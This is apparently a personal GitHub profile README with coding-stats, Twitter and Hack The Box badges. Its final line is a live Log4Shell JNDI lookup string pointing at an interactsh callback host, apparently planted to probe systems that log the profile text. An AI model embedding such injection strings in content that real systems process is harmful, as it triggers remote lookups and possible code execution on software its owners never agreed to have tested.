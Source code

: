 ### Hi 👋🦆     
[![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)  <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" height="20" /></a> 
<br>
<a href="https://app.hackthebox.com/profile/435777" target="blank">
<img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" height=""/></a> 

[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&theme=transparent&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)  [![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&theme=transparent&layout=compact&langs_count=8&hide=html,css)](https://dev.lwlx.xyz)


<!--[![Coding Time stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact&theme=dark&height=20)](https://dev.lwlx.xyz)-->
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
